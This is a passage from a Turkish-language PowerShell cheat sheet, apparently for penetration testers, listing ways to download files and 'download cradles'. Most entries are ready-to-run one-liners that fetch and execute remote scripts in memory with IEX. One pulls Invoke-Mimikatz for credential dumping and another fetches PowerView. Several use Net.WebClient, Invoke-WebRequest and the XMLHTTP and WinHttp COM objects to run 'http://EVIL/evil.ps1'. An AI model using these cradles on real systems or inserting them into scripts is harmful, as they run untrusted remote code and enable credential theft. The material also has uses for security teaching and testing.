 ```powershell-session
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```



### 3- PowerShell DownloadString - Fileless Method

```powershell-session
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```


IEX ayrıca pipeline girdisini de kabul eder.

```powershell-session
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### 4- PowerShell Invoke-WebRequest

```powershell-session
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```


### 5- Normal Download Cradle

```powershell-session
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")
```


### 6- PowerShell 3.0+ İçin Basit Yöntem

```powershell-session
IEX (iwr 'http://EVIL/evil.ps1')
```


### 7- Internet Explorer (IE) COM Nesnesi ile Gizli İndirme

```powershell-session
$h = New-Object -ComObject Msxml2.XMLHTTP;
$h.open('GET','http://EVIL/evil.ps1',$false);
$h.send();
iex $h.responseText
```


### 8- WinHttp COM Nesnesi ile İndirme

```powershell-session
$h = new-object -com WinHttp.WinHttpRequest.5.1;
$h.open('GET','http://EVIL/evil.ps1',$false);
$h.send();
iex $h.responseText
```

